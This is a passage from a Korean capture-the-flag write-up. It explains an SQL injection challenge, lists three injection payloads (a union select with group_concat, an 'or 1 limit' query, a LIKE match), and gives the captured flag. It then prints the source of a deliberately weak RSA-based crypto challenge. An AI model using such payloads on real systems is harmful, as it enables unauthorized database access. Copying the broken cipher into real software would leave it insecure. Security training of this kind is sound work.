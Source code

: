 문제 내 서비스는 name과 birth 파라미터를 통해 POST로 합격자 조회를 요청할 수 있다. 그러나 조회 과정에서 사용되는 SELECT 쿼리에 파라미터가 검증 없이 바로 삽입되면서 SQL Injection을 수행할 수 있다. 다음과 같이 다양한 방식의 접근을 통해 문제를 해결할 수 있다.

* `" union select 1, 2, 3, 4, group_concat(name) from prob#`
* `" or 1 limit 36,1#`
* `" or name like "%HCAMP%"#`

#### FLAG

`HCAMP{5D46BCE881C8E9EAAA547453D4E15A21}`

## \[CRYPTO] Really Safe A,,,

> 이거이거 정말 안전한데 표현할 방법이 없네,,,

```python
from Crypto.Util.number import getPrime, bytes_to_long, long_to_bytes
import gmpy2

e = 65537

p = getPrime(1024)
q = getPrime(1024)

N = p * q
phi = (p - 1) * (q - 1)

d = gmpy2.divm(1, e, phi)

def padding(msg):
    total_length = len(msg) + (len(msg) % 2)
    return msg.ljust(total_length, '=')

def really_secret_cipher(plaintext):
    cipher_list = []
    msg = padding(plaintext)

    for ptr in range(0, len(msg)-2, 2):
        M1 = bytes_to_long(msg[ptr:ptr+2].encode())
        C1 = gmpy2.powmod(M1, e, N)
        M2 = bytes_to_long(msg[ptr+2:ptr+4].encode())
        C2 = gmpy2.powmod(M2, e, N)

        super_C = C1 * C2
        cipher_list.append(long_to_bytes(super_C).hex())
   
    return '.'.join(cipher_list)


FLAG = "HCAMP{******}"
if __name__ == '__main__':
    encrypted_flag = really_secret_cipher(FLAG)
    with open('data.enc', 'w') as f:
        print("FLAG : " + FLAG)
        f.write(str(N) + '/' + str(e) + '/' + encrypted_flag)
```
